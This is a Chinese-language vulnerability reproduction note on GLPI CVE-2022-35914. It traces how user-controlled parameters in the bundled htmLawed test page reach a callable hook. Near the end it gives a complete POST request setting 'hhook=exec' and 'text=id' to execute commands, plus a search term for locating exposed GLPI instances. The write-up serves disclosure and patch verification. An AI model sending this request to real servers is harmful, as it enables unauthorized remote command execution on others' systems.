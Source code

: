 # GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中 允许 PHP 代码注入

## 漏洞影响

<a-checkbox checked>GLPI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GLPI"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664764583921-930e166a-74b4-48a3-af34-9bcb1e20fa0f.png)

出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware 

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664889433165-f745a7dc-7774-4ff0-abe6-c96d4f2f796c.png)



```sql
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664893382208-bf44fba7-3b95-4197-a2bb-d139ec21f1d9.png)

跟进文件 htmLawed.php 中

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664946511507-81cddbd6-de1a-4df9-b7cb-da460b4c1516.png)

```sql
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664946759678-b3032a67-4717-44f7-a00d-101e690f8b53.png)

验证POC

```sql
/vendor/htmlawed/htmlawed/htmLawedTest.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664764633952-b6bb3e54-7b6a-49c2-94b6-39fd5cb0d032.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664764647931-b53cbf79-aa45-48d4-9581-f88a58ff1b61.png)

访问页面获取到 sid 与 token 后再发送请求包

```sql
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664764696143-4f92e328-735b-4587-987d-1552817796f1.png)